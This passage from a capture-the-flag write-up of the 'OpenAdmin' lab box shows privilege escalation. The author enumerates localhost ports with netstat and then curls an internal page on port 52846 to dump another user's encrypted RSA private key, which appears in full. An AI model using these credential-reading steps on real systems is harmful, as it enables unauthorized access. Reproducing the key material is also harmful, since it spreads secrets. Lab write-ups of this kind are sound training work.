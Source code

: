 It seems to be reading the ssh key for joanna which is another user on the box, We realise that the method to privelage escalate on this box is going to be through this web page to get the ssh-key.

We try `curl http://127.0.0.1/main.php` but we get a 404 error which is interesting the main.php is definetely a file.

We run `netstat -tupln` to see if any other ports are running and indeed there are.

```bash
jimmy@openadmin:/var/www/internal$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

We see that there are ports 3306 and 52846 running on locahost, we will try now read the file through the open ports, port 3306 doesnt work but port 52846 does infact work and we succesfully read joannas ssh key.

```bash
jimmy@openadmin:/var/www/internal$ curl http://127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```